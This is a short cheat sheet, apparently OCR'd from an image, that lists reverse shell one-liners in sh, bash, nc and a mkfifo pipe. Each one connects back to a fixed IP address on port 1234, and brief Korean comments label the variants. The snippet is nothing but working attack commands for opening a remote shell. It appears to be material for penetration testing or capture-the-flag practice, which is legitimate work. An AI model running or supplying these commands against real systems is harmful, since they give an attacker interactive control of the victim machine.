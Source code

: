 sh -i >& /dev/tcp/10.8.136.212/1234 0>&1
nc -c sh 10.8.136.212 1234

# 일반적인 bash

bash -i >& /dev/tcp/10.8.136.212/1234 0>&1
/bin/sh -i >& /dev/tcp/10.8.136.212/1234 0>&1

# 안전한 파이프 방식 선호

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.136.212 1234 >/tmp/f
